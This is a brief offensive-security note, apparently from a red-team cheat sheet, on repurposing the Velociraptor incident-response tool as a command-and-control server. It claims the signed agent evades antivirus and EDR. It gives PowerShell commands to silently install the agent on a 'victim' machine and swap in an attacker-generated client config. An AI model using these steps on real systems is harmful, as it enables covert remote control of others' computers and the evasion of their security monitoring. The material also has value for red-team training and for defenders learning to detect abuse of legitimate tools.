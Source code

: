
> This need to be run in a privileged shell

Velociraptor is an advanced digital forensic and incident response tool that enhances your visibility into your endpoints.
But It can be used as a c2 server too, this is a very convenient tool, because agent are signed by velociraptor so the executable evade all the Antivirus and EDR solutions.

First thing first, deploy the server : https://docs.velociraptor.app/docs/deployment/

### Install the agent on the victim

First download and install the official binary
```powershell
# download the latest version
wget https://github.com/Velocidex/velociraptor/releases/download/v0.6.7-5/velociraptor-v0.6.7-4-windows-amd64.msi -o velociraptor.msi

# install quietly
msiexec.exe /quiet /i velociraptor.msi
```

Then, on the victim computer, edit `C:\Program Files\Velociraptor\client.config.yaml` and replace it's content by the `client.config.yml` previously downloaded on the velociraptor server

> Note: if you don't have any `client.config.yml`, then you could generate one on the server with `./velociraptor --config ../etc/server.config.yaml config client > ../etc/client.config.yaml`. Take a look at https://medium.com/@0D0AResearch/getting-started-with-velociraptor-2f20de22b491

Now you should see your new client on the velociraptor dashboard !

---
Sources:
- [Velociraptor](https://docs.velociraptor.app/)
- https://medium.com/@0D0AResearch/getting-started-with-velociraptor-2f20de22b491
